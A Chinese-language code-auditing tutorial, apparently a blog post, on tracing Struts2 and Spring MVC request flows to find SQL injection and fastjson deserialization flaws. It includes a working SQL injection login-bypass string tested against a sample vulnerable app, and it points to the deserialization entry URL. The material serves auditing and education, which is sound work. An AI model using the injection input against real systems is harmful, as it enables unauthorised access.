




# 2020 代码审计总结（2022 修改版_代码审计快速入门）

# [](#1-%E8%AF%86%E5%88%AB%E6%A1%86%E6%9E%B6 "1. 识别框架")1. **识别框架**[](#1-%E8%AF%86%E5%88%AB%E6%A1%86%E6%9E%B6)

在打开源码时想判断系统框架，可以看其目录结构，例如一个 struts2 项目中 web.xml 文件存在`Filter-class`为：

`org.apache.struts2.dispatcher.xxxx`

[](https://novysodope.github.io/images/94/03g8ryiNcXCmWDb2sxCLwPeQMC5875XJ0B6JXTsJ-rs.png "image")

[image](https://novysodope.github.io/images/94/03g8ryiNcXCmWDb2sxCLwPeQMC5875XJ0B6JXTsJ-rs.png "image")

以及 resources 目录（或项目根目录下）中存在 strtus.xml

[](https://novysodope.github.io/images/94/ahoRqZ8OmX8nIqmXjmxdmCNXg9HIYjM3lDlpCNKnq2k.png "image")

[image](https://novysodope.github.io/images/94/ahoRqZ8OmX8nIqmXjmxdmCNXg9HIYjM3lDlpCNKnq2k.png "image")

如果存在 pom 那 pom.xml 中存在 struts 依赖信息

[](https://novysodope.github.io/images/94/MqkiTRDMzFXqnrbMWaVNdyi7xXk16x5PgqbLSZuCQWw.png "image")

[image](https://novysodope.github.io/images/94/MqkiTRDMzFXqnrbMWaVNdyi7xXk16x5PgqbLSZuCQWw.png "image")

而 springmvc 的特征则是在 pom.xml 中会存在相关依赖

[](https://novysodope.github.io/images/94/pv49Mq5xeCC_YLA8IcSkam-d9u1aGE1gJg3UpeUqxps.png "image")

[image](https://novysodope.github.io/images/94/pv49Mq5xeCC_YLA8IcSkam-d9u1aGE1gJg3UpeUqxps.png "image")

web.xml 中存在关于`DispatcherServlet`的注册配置

[](https://novysodope.github.io/images/94/Dytdf6v-onI-WK6MTT40N5OwSOJmwo_02hE_CLMdbcU.png "image")

[image](https://novysodope.github.io/images/94/Dytdf6v-onI-WK6MTT40N5OwSOJmwo_02hE_CLMdbcU.png "image")

其他的诸如 jfinal 之类的也会有对应的特征

# [](#2-%E5%AE%A1%E8%AE%A1%E6%80%9D%E8%B7%AF "2. 审计思路")2. **审计思路**[](#2-%E5%AE%A1%E8%AE%A1%E6%80%9D%E8%B7%AF)

## [](#2-1-Struts2 "2.1. Struts2")2.1. **Struts2**[](#2-1-Struts2)

### [](#2-1-1-%E6%98%A0%E5%B0%84%E9%85%8D%E7%BD%AE "2.1.1. 映射配置")2.1.1. 映射配置[](#2-1-1-%E6%98%A0%E5%B0%84%E9%85%8D%E7%BD%AE)

#### [](#2-1-1-1-struts-xml "2.1.1.1. struts.xml")2.1.1.1. **struts.xml**[](#2-1-1-1-struts-xml)

通过 struts.xml 文件，查看存在哪些 action，以及处理具体请求的 java 文件路径

例如：

[](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

[image](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

##### [](#%E6%A0%87%E7%AD%BE "标签")**标签**[](#%E6%A0%87%E7%AD%BE)

如图所示，`<action`标签就是处理请求的配置标签，一个标签表示处理一个请求，在该标签中各字段的属性解释为：

**name：**请求的 uri，即请求的路径；

**class：**负责处理该请求的类；

**method：**负责处理该请求的类里的具体方法

##### [](#%E6%A0%87%E7%AD%BE-1 "标签")**标签**[](#%E6%A0%87%E7%AD%BE-1)

`<result>标签`是结果视图，作为返回结果的，即当一个 action 处理完之后返回字符串的结果码。框架可以根据这个返回的字符串，映射到指定的页面。`result元素`可以分为两部分：一是结果映射，一部分是返回结果类型。

**结果映射**

`result`有两个属性可以配置：`name属性`和`type属性`。其中的`name属性`主要用来指定资源的逻辑名称，实际名称在标签内部指定。`type属性`就是 result 的返回类型，通俗的说，在该标签中，`name属性`是与处理方法的返回结果对应，`type属性`表示结果类型，场景如下：

```java
public String login() throws Exception {
       if(this.req==null){
       return “failer”;//name=”failer”
}
        return “success”;//name=”success”
    }
```

当方法返回 failer 时就会跳转到前端/failer.jsp，反之就会跳转到/success.jsp

**结果类型**

结果类型中常用的有四种：`dispatcher`、`redirect`、`redirectAction`和`chain`。其中`dispatcher`相当于转发，`redirect`相当于重定向，`redirecAction`也是重定向，只不过使用该结果类型的时候，一般是重定向到某个 action，最后一种主要用于 action 的链式处理。其他的还有 plainText（用于显示页面的原始内容，比如 Servlet 或者 jsp 的源代码）、xslt 等

回到图中配置解释，在该图中

[](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

[image](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

login 即请求/login，由 LoginAction 类的 login 方法处理

##### [](#%E8%AF%B7%E6%B1%82%E5%90%8E%E7%BC%80%E9%85%8D%E7%BD%AE "请求后缀配置")**请求后缀配置**[](#%E8%AF%B7%E6%B1%82%E5%90%8E%E7%BC%80%E9%85%8D%E7%BD%AE)

要确定请求的后缀，可以查看 struts.xml 或 properties 文件的配置

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```xml<br><constant name="struts.action.extension" value="do" /><br><constant name="struts.action.extension" value="action" /><br>``` |

或

```xml
struts.action.extension = do
struts.action.extension = action
```

表示.do 或.action 后缀访问

##### [](#struts2%E7%9A%84%E5%8A%A8%E6%80%81%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8%E5%92%8C%E9%80%9A%E9%85%8D%E7%AC%A6%E6%98%A0%E5%B0%84 "struts2的动态方法调用和通配符映射")**struts2 的动态方法调用和通配符映射**[](#struts2%E7%9A%84%E5%8A%A8%E6%80%81%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8%E5%92%8C%E9%80%9A%E9%85%8D%E7%AC%A6%E6%98%A0%E5%B0%84)

除了以上的映射写法，st2 还有一种动态方法调用，但是 Struts2 默认关闭该功能，需要使用需要手动打开，配置如下

`struts.enable.DynamicMethodInvocation = true`

###### [](#%E5%8A%A8%E6%80%81%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8 "动态方法调用")**动态方法调用**[](#%E5%8A%A8%E6%80%81%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8)

还是这个图

[](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

[image](https://novysodope.github.io/images/94/Irhlilxuo-2MKx2odSFmBdKaQYNPTtI842ZBOdQ4oS4.png "image")

当动态方法启用后，以 action 后缀为例，原来的`/login.action`会变成`/login!login.action`（Action 配置名！方法名。扩展名），方法调用一样，由 LoginAction 类的 login 方法处理

###### [](#%E9%80%9A%E9%85%8D%E7%AC%A6%E6%98%A0%E5%B0%84 "通配符映射")**通配符映射**[](#%E9%80%9A%E9%85%8D%E7%AC%A6%E6%98%A0%E5%B0%84)

由上图的写法变为下面的写法：

```xml
<action name="*_*" class="cn.thc.web.action.{1}Action" method="{2}">      <result>success.jsp</result>   
<result>failer.jsp</result>  
</action>  
```

该写法的请求 URL 表现为：`/Login_login`，同样是由 LoginAction 里的 login 方法处理。`{1}`、`{2}`表示通配符的位置，这里`{1}`表示类名`Login`，`{2}`表示方法名`login`。

在审计漏洞之前，我们需要了解一下 web 各层流程

### [](#1-1-1-%E5%B1%82%E6%AC%A1%E4%BB%8B%E7%BB%8D "1.1.1. 层次介绍")1.1.1. **层次介绍**[](#1-1-1-%E5%B1%82%E6%AC%A1%E4%BB%8B%E7%BB%8D)

通常在 struts2 中

**action 为业务逻辑处理层**，action 层接收来自视图层（前端，用户操作层）的请求，并接收请求参数，同时负责调用模型 Model 层方法来完成业务逻辑的处理，最后控制程序的流程，选择一个合适的视图，将结果显示给用户，一般这个目录下文件的特征表现为`XxxxAction.java`，比如`NovyAction.java`；

**dao 为数据持久层**，在这层中通常是用来做数据库处理的，增删查改都在这里，一般这个目录下文件的特征表现为`xxxxDao.java`，比如`NovyDao.java`。

在 web 运行处理请求时流程为**视图层**<->**业务逻辑处理层**<->**数据持久层**

### [](#1-1-2-%E5%AE%9E%E4%BE%8B "1.1.2. 实例")1.1.2. **实例**[](#1-1-2-%E5%AE%9E%E4%BE%8B)

Idea 打开项目，查看目录结构

[](https://novysodope.github.io/images/94/kK8FAw6EtIZqkqhKB8DbuAM36jgTAi87NX0kmjaFCtM.png "image")

[image](https://novysodope.github.io/images/94/kK8FAw6EtIZqkqhKB8DbuAM36jgTAi87NX0kmjaFCtM.png "image")

根据之前 3.1.1.介绍，查看映射配置

查看 struts.xml 中含有哪些 action 以便找到处理请求对应的类

[](https://novysodope.github.io/images/94/xKobzkA0DPKQJAYr3IWuXx9LBwkKRNOFPSx2pRnp5TM.png "image")

[image](https://novysodope.github.io/images/94/xKobzkA0DPKQJAYr3IWuXx9LBwkKRNOFPSx2pRnp5TM.png "image")

根据配置我们知道请求/Gologin 由 GoLogin 类处理，所以我们可以根据路径跟进 GoLogin 类，其路径组成对应为

`src/com/action/GoLogin.java`

在 idea 里，一般可以按住 ctrl+ 鼠标左键点击即可跳转到类

[](https://novysodope.github.io/images/94/ZWOFKpJHpCrALVWBtA3eGHFQzMw18b32IDPwgNvaGiw.png "image")

[image](https://novysodope.github.io/images/94/ZWOFKpJHpCrALVWBtA3eGHFQzMw18b32IDPwgNvaGiw.png "image")

#### [](#1-1-2-1-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90 "1.1.2.1. 代码分析")1.1.2.1. **代码分析**[](#1-1-2-1-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90)

在`GoLogin`类中我们就可以看到一些对登陆的处理，如果我们找 SQL 注入的话就看处理登陆参数的相关方法，比如此处 new 了一个`AdminDao`类下的`checkLogin`方法来处理`username`及`Password`，再根据判断返回的结果是否为空来显示相应内容

[](https://novysodope.github.io/images/94/7U6Q0RPlUHcYtWwkNA3uOJZRby_2OYnjGQhdwUsnqQ0.png "image")

[image](https://novysodope.github.io/images/94/7U6Q0RPlUHcYtWwkNA3uOJZRby_2OYnjGQhdwUsnqQ0.png "image")

根据`3.1.2`介绍我们知道`AdminDao`为数据持久层，那么`ChekLogin`方法通常就是对登陆做数据库操作的地方，所以我们跟进一下该方法

[](https://novysodope.github.io/images/94/cLpumxhHC27fzoBXaru3z2cOdf68_QGW3-W5ndyJEis.png "image")

[image](https://novysodope.github.io/images/94/cLpumxhHC27fzoBXaru3z2cOdf68_QGW3-W5ndyJEis.png "image")

在此处因为直接拼接请求参数，然后带入数据库去执行查询导致了 SQL 注入漏洞的产生

#### [](#1-1-2-2-%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81 "1.1.2.2. 漏洞验证")1.1.2.2. **漏洞验证**[](#1-1-2-2-%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

根据前面`3.1.1.2`介绍我们知道其请求路由为`/Gologin`，参数表现为

`username=aaa&password=aaa`

根据漏洞位置我们模拟其 sql 语句为

`Select * from Admin where Admin_Username='username' and Admin_Password='password'`

所以登陆时我们可以使用万能用户名来进行登陆绕过

`admin'or"="or--+`

[](https://novysodope.github.io/images/94/WYa92VOnZTtxfFi-BfTVvypxp-b37fu-gouu2v-5mSs.png "image")

[image](https://novysodope.github.io/images/94/WYa92VOnZTtxfFi-BfTVvypxp-b37fu-gouu2v-5mSs.png "image")

### [](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83 "本章思考")**本章思考**[](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83)

在示例中，我们可以看到映射配置中并没有配置具体处理方法，那怎么确定哪个方法是用来处理请求的呢？

#### [](#Action%E6%8E%A5%E5%8F%A3%E4%B8%8EActionSupport%E7%B1%BB "Action接口与ActionSupport类")**Action 接口与 ActionSupport 类**[](#Action%E6%8E%A5%E5%8F%A3%E4%B8%8EActionSupport%E7%B1%BB)

##### [](#Action%E6%8E%A5%E5%8F%A3 "Action接口")**Action 接口**[](#Action%E6%8E%A5%E5%8F%A3)

这个时候就要说到 st2 的特性，st2 的核心功能就是 action，对于开发人员来说，使用 st2 开发主要就是编写 action，为了让开发 action 类更规范，st2 提供了一个 Action 接口，接口如下所示

[](https://novysodope.github.io/images/94/2xbt9PA3nvHCl47ZPYbGTXhdc182yhN6Okhm7MRoDMc.png "image")

[image](https://novysodope.github.io/images/94/2xbt9PA3nvHCl47ZPYbGTXhdc182yhN6Okhm7MRoDMc.png "image")

当使用 Action 接口创建 action 的时候，就必须要实现`execute`方法，回到思考问题上，此时的请求处理就由实现的`execute`方法执行，即方法实现要在该方法里编写

##### [](#ActionSupport%E7%B1%BB "ActionSupport类")**ActionSupport 类**[](#ActionSupport%E7%B1%BB)

除了实现 Action 接口之外也可以通过继承`ActionSupport`来创建 action，因为`ActionSupport`是接口 Action 的实现类，所以就不用必须再重新实现`execute`方法，此时就可以自定义一些方法实现，即映射配置里指定的处理方法

## [](#1-1-Spring "1.1. Spring")1.1. **Spring**[](#1-1-Spring)

### [](#1-1-1-%E9%85%8D%E7%BD%AE%E5%8F%8A%E4%BE%9D%E8%B5%96 "1.1.1. 配置及依赖")1.1.1. 配置及依赖[](#1-1-1-%E9%85%8D%E7%BD%AE%E5%8F%8A%E4%BE%9D%E8%B5%96)

#### [](#1-1-1-1-Springmvc-xml "1.1.1.1. Springmvc.xml")1.1.1.1. **Springmvc.xml**[](#1-1-1-1-Springmvc-xml)

在 springMVC 配置文件中，`component-scan`是用来查找 Controller 类所在位置，`org.springframework.web.servlet.view.InternalResourceViewResolver`为自定义视图解析器

[](https://novysodope.github.io/images/94/qdCNdZFlGwe4FwThj_rK8Qd4Tob6n1IR7kDrqmaE488.png "image")

[image](https://novysodope.github.io/images/94/qdCNdZFlGwe4FwThj_rK8Qd4Tob6n1IR7kDrqmaE488.png "image")

#### [](#1-1-1-2-pom-xml "1.1.1.2. pom.xml")1.1.1.2. **pom.xml**[](#1-1-1-2-pom-xml)

它是 Maven 项目中的文件，使用 XML 表示，也可以由此判断该项目是否为 maven 项目，该配置文件通常用来声明项目信息、环境的配置、引用组件依赖等等

[](https://novysodope.github.io/images/94/NqHLOZ6Zw1XfChgS-6OynjX9eXlyAsOom5L6v01T-nA.png "image")

[image](https://novysodope.github.io/images/94/NqHLOZ6Zw1XfChgS-6OynjX9eXlyAsOom5L6v01T-nA.png "image")

### [](#1-1-2-%E5%B1%82%E6%AC%A1%E4%BB%8B%E7%BB%8D "1.1.2. 层次介绍")1.1.2. 层次介绍[](#1-1-2-%E5%B1%82%E6%AC%A1%E4%BB%8B%E7%BB%8D)

通常在 springmvc 中

**controller 为业务逻辑层**，用来接收用户的请求，然后将参数传递到 Service 层处理业务逻辑，由 impl 做具体实现，获取到结果后再返回传递，一般请求的 url 就写在 controller 中，比如

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>@Controller<br>@RequestMapping(value = "/hinovy")<br>``` |

则请求 url 为`http://localhost/hinovy`

该层级的文件一般为`xxxcontroller.java`，比如`NovyController.java`

**Service**是业务接口层，接收`Controller层`数据，与`DAO/Mapper层`交互，处理业务逻辑，生成`responseDTO`数据并返回`Controller层` ,该层文件一般为 xxxServce.java，比如 NovyService.java，此处是接口定义，就是定义一些方法，没有这些方法的实现，但是有时候数据操作会在这里发生

**Mapper**是数据持久层，对数据库进行数据持久化操作，他的方法语句是直接针对数据库操作的，数据持久层文件通常都是`xxxMapper.xml`，比如`NovyMapper.xml`，它的上一层是 Mapper.java，因为业务实现无法直接与 xml 层做数据交互，所以就要有一个接口来做中转。

**Dao**是数据接口层，一些数据请求（接口）会在这里发生（一般用于内部实现）

**Entity**是实体处理层，用于存放我们的实体类，与数据库中的属性值基本保持一致（定义前端传来的请求参数）

**Implements**是服务实现层用来处理一些方法的实现（这个方法干了啥干了啥），该层文件一般为`xxxImpl.java`，比如`NovyImpl.java`，impl 是把 mapper 和 service 进行整合的文件，有时候一些 sql 操作也会发生在这里

在 web 运行时处理请求的流程为**Controller<->Service<->impl<->mapper**

### [](#1-1-3-%E5%AE%9E%E4%BE%8B "1.1.3. 实例")1.1.3. 实例[](#1-1-3-%E5%AE%9E%E4%BE%8B)

这里以含有漏洞的 springboot 项目做案例，Idea 打开项目，等待依赖导入完成

[](https://novysodope.github.io/images/94/Pvi1ycOvZrjIO5U_U63enDgH-A42PMIrzZzs02YxavA.png "image")

[image](https://novysodope.github.io/images/94/Pvi1ycOvZrjIO5U_U63enDgH-A42PMIrzZzs02YxavA.png "image")

发生报错的就自己下载相关组件导入

查看目录结构

[](https://novysodope.github.io/images/94/bL_IwGx9NQNDVIb0NjrnPVBzNFvICLZ0qvHyj_VVecs.png "image")

[image](https://novysodope.github.io/images/94/bL_IwGx9NQNDVIb0NjrnPVBzNFvICLZ0qvHyj_VVecs.png "image")

按照 3.2.2 介绍得知流程为**controller->services->mapper**,按照 3.2.2 对 pom 的介绍，我们先看 pom.xml 引用了哪些组件，以此来找出包含漏洞版本的组件，然后再看 controller 及其他。

在 pom 文件中，我们可以看到其引用了含有漏洞版本的 fastjson

[](https://novysodope.github.io/images/94/gnZtMNKK7NqOehh64oMw0lR3tcguHdWM1g_P0TGgy3k.png "image")

[image](https://novysodope.github.io/images/94/gnZtMNKK7NqOehh64oMw0lR3tcguHdWM1g_P0TGgy3k.png "image")

但是看到依赖还不行，要定位到用到该依赖的地方，可以全局搜`parseObject`或`parse`来查看请求是否可控。

要找出所有业务逻辑层，可以在 idea 中利用 file mask 来查看所有 controller：`*Controller.java`，或全局搜索`@Controller`

[](https://novysodope.github.io/images/94/yq5-MY8A_S1uZEfRY_X-mFs6WRUxE-vTX2VPq-pnrik.png "image")

[image](https://novysodope.github.io/images/94/yq5-MY8A_S1uZEfRY_X-mFs6WRUxE-vTX2VPq-pnrik.png "image")

随便点进一个搜索结果，从`3.2.2`介绍得知此处请求 url 为`/informlistpaging`，由`informListPaging`方法处理

[](https://novysodope.github.io/images/94/iNIcOTAcDSaGYfFV5uBZYkrAbIERufzOvEIuf3BVyhM.png "image")

[image](https://novysodope.github.io/images/94/iNIcOTAcDSaGYfFV5uBZYkrAbIERufzOvEIuf3BVyhM.png "image")

在此处我们可以看到`informListPaging`方法有很多注解，其中`@RequestParam`是获取请求参数，参数名为 value 值，拿 basekey 做例子，在该方法中被定义为字符串请求参数。在 SpringMvc 进行获取请求参数，常见的一般有三种：

```java
1.request.getParameter("参数名")

2.用@RequestParam注解获取

3.Springmvc默认支持的数据类型接收参数，可直接通过controller方法参数对应jsp中请求参数name直接获取
```

如果是`@RequestBody`则是获取整个请求体

#### [](#1-1-1-1-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90 "1.1.1.1. 代码分析")1.1.1.1. **代码分析**[](#1-1-1-1-%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90)

pom.xml

[](https://novysodope.github.io/images/94/8G4KjJ2_WVlOGBXzQ3XLyDBKL5FgLP68_2DG7EyfDyw.png "image")

[image](https://novysodope.github.io/images/94/8G4KjJ2_WVlOGBXzQ3XLyDBKL5FgLP68_2DG7EyfDyw.png "image")

看到了存在漏洞的组件，全局搜索`json.parseObject`或` JSONObject.parseObject`` ` 来查找参数可控的地方

[](https://novysodope.github.io/images/94/oxiQLeU4W3W_skNuz8bqpaAMdHms3phMpQa88MoNT94.png "image")

[image](https://novysodope.github.io/images/94/oxiQLeU4W3W_skNuz8bqpaAMdHms3phMpQa88MoNT94.png "image")

在该类中`getCommonFields`方法里对`param`参数做了反序列化，但是还没有看到请求的 url，所以要往上跟进该方法，看看有哪里调用了`getCommonFields`

[](https://novysodope.github.io/images/94/OksuWgdZQXT-Z6I4VuUoQTyf4BAt31q146Lny71OupY.png "image")

[image](https://novysodope.github.io/images/94/OksuWgdZQXT-Z6I4VuUoQTyf4BAt31q146Lny71OupY.png "image")

在一处业务逻辑层中看到调用的地方，在该方法中，将参数`param`传进了`getCommonFields`方法进行反序列化，由于参数是可控的，所以我们可以直接利用，url 请求表现为：

`/getCommonFields?param=url编码的payload`

同样的，按照`3.1.3.1`的思路，我们想要找注入就找到处理该参数的地方

拿`informListPaging`方法的`basekey`参数为例

[](https://novysodope.github.io/images/94/zBpVWsn3KmONqhVeMm8LFGbj44tmiqONTgUGwA3NL-c.png "image")

[image](https://novysodope.github.io/images/94/zBpVWsn3KmONqhVeMm8LFGbj44tmiqONTgUGwA3NL-c.png "image")

在 80 行中，几个参数传进`sortMyNotice`方法进行处理，这里需要注意的是，`nm`并不是一个类，而是一个被定义的接口，所以我们需要注意`nm`在哪里被定义了

[](https://novysodope.github.io/images/94/ExtQQg693lOAQUFT6pUXNVPFyP2_9XC22eQqPxWQdwY.png "image")

[image](https://novysodope.github.io/images/94/ExtQQg693lOAQUFT6pUXNVPFyP2_9XC22eQqPxWQdwY.png "image")

跟进`NoticeMapper`

[](https://novysodope.github.io/images/94/J78NS2w5jCwJKJHIFsPZgjAJDHp6fJS5-nNlz2h08Eg.png "image")

[image](https://novysodope.github.io/images/94/J78NS2w5jCwJKJHIFsPZgjAJDHp6fJS5-nNlz2h08Eg.png "image")

此处为数据持久层接口，为`nm`提供了`sortMyNotice`方法，但这里还不是数据库操作的地方，因为 controller 无法直接调用 mapper.xml 的方法，所以就需要这个 mapper.java 来做一个接口中转，所以我们根据`3.2.2`介绍，转到 mapper.xml 层

全局搜索`sortMyNotice`方法

[](https://novysodope.github.io/images/94/-i_kglrMczGdcxhG7r_ps-5dBq996U4cdUygM3Zb-G8.png "image")

[image](https://novysodope.github.io/images/94/-i_kglrMczGdcxhG7r_ps-5dBq996U4cdUygM3Zb-G8.png "image")

转到 notice-mapper.xml

[](https://novysodope.github.io/images/94/ghiiy5z5zpOaGpUn9DwxlHlowa5OFfmOLLapMvLPdGc.png "image")

[image](https://novysodope.github.io/images/94/ghiiy5z5zpOaGpUn9DwxlHlowa5OFfmOLLapMvLPdGc.png "image")

此处的`select id`即为调用到的方法，往下为 sql 语句，我们可以看到在 like 后面直接用`%${}%`进行模糊查询，没有对参数做预编译，导致了漏洞的产生

#### [](#1-1-1-2-%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81 "1.1.1.2. 漏洞验证")1.1.1.2. **漏洞验证**[](#1-1-1-2-%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

在`3.2.2`的介绍中得知，根据 controller 构造 url：

`http://localhost/informlistpaging?baseKey=`

[](https://novysodope.github.io/images/94/qxLZEb9G-JLSu7bEdOi3rCINhWiTaNMJTIqSTPjcd1s.png "image")

[image](https://novysodope.github.io/images/94/qxLZEb9G-JLSu7bEdOi3rCINhWiTaNMJTIqSTPjcd1s.png "image")

### [](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-1 "本章思考")**本章思考**[](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-1)

有人会问按照介绍，那 service 层呢？在这里

[](https://novysodope.github.io/images/94/fbHAaTvjSRZ8RyanLQFC4oAs19kgvs_XRtxu4E2xT0M.png "image")

[image](https://novysodope.github.io/images/94/fbHAaTvjSRZ8RyanLQFC4oAs19kgvs_XRtxu4E2xT0M.png "image")

`imformRelationService`的`setList`方法对 mapper 处理返回的数据进行封装处理后返回到 controller，然后 controller 返回到视图层，流程结束

[](https://novysodope.github.io/images/94/CLmsZ6R5o1YTaphZMzdP6u7ZOBFhIDImALGvA2yuW7U.png "image")

[image](https://novysodope.github.io/images/94/CLmsZ6R5o1YTaphZMzdP6u7ZOBFhIDImALGvA2yuW7U.png "image")

##### [](#service%E5%8F%AA%E6%98%AF%E6%8E%A5%E5%8F%A3%EF%BC%9F "service只是接口？")**service 只是接口？**[](#service%E5%8F%AA%E6%98%AF%E6%8E%A5%E5%8F%A3%EF%BC%9F)

有时候 sql 查询会直接发生在`XXXservice`，比如

某个项目中的某个方法有个查询，定义了一个字符串参数`defkey`

[](https://novysodope.github.io/images/94/XaGRVWqDcE6Pi6nzN6oBlDWzp9gKR8BlIeAX21faUFk.png "image")

[image](https://novysodope.github.io/images/94/XaGRVWqDcE6Pi6nzN6oBlDWzp9gKR8BlIeAX21faUFk.png "image")

查看`wfservice`在哪里被定义，也可以直接 ctrl+ 左键直接进入方法

[](https://novysodope.github.io/images/94/02T7OkwYMINDtylPswQhAWDCBcPu3bCJDjGaFYfBBqM.png "image")

[image](https://novysodope.github.io/images/94/02T7OkwYMINDtylPswQhAWDCBcPu3bCJDjGaFYfBBqM.png "image")

跟进`WorkFlowService`，在该`WorkFlowService`中搜索前面调用到的`getHavedonePage`方法，在该方法中含有一条没有进行预编译 sql 查询，此处直接进行数据查询导致了漏洞的产生

[](https://novysodope.github.io/images/94/_TWEVPVzDJTeIzCIVTiptF4-FMBEQpV7B2TZp3AQhL8.png "image")

[image](https://novysodope.github.io/images/94/_TWEVPVzDJTeIzCIVTiptF4-FMBEQpV7B2TZp3AQhL8.png "image")

[](https://novysodope.github.io/images/94/ULB2W5PiSPHPf3FPK29ErIHb0RDx8lfmJvDaOHWf330.png "image")

[image](https://novysodope.github.io/images/94/ULB2W5PiSPHPf3FPK29ErIHb0RDx8lfmJvDaOHWf330.png "image")

所有这个名称是看开发，有时候文件名只是文件名，还是要具体看类名前置，如果是`public interface WorkFlowService`那说明这个类是接口类，具体操作不会发生在这里，这个时候就要找实现它的类

##### [](#%E8%B7%9F%E5%88%B0%E6%8E%A5%E5%8F%A3%E6%96%AD%E4%BA%86 "跟到接口断了")**跟到接口断了**[](#%E8%B7%9F%E5%88%B0%E6%8E%A5%E5%8F%A3%E6%96%AD%E4%BA%86)

当跟进方法时跟到接口断了怎么办，比如出现这种情况

controller 里有一个密码重置

[](https://novysodope.github.io/images/94/4jeraathzV4Zn40QVcNnzepWvBBU2HujHtnIkC-buEg.png "image")

[image](https://novysodope.github.io/images/94/4jeraathzV4Zn40QVcNnzepWvBBU2HujHtnIkC-buEg.png "image")

跟进`updatePassword`方法

[](https://novysodope.github.io/images/94/2jIHU6G-7zzKfvSdsr72a1f3UUbIEDJGl0XXdaFHs6Y.png "image")

[image](https://novysodope.github.io/images/94/2jIHU6G-7zzKfvSdsr72a1f3UUbIEDJGl0XXdaFHs6Y.png "image")

到这里之后只看到提供给`userService`的`updatePassword`方法，没有看到具体的实现，

不要慌，根据`3.2.2`的介绍，我们还有个 impl 没有看，有接口那必定有一个实现该接口的类。全局搜索`implements UserService`

[](https://novysodope.github.io/images/94/l_1IhQ2d85v8SQy7kmG7hjB1cbi4c9v_L-Ho_nUCdZU.png "image")

[image](https://novysodope.github.io/images/94/l_1IhQ2d85v8SQy7kmG7hjB1cbi4c9v_L-Ho_nUCdZU.png "image")

就可以看到对接口`UserService`的`updatePassword`方法的实现

[](https://novysodope.github.io/images/94/g84RdzSd18uTYbMI_c1ixlyf6m6kdzlCasiQVfH1w98.png "image")

